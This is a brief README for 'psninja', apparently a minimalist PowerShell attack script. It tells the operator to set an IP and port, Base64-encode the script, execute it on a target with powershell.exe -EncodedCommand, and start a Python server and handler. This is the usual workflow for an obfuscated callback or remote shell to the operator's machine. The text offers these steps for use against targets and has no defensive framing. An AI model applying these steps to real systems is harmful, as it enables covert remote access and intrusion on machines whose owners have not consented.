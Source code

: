 # psninja
Minimalist script<br/>

Step1. Edit IP and port on PS file<br/>
Step2. Base64 encoded with [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($string))<br/>
Step3. execute on target with powershell.exe -EncodedCommand $encodedcommand<br/>
Step4. Start Python server and handler<br/>
Step5. Have fun<br/>
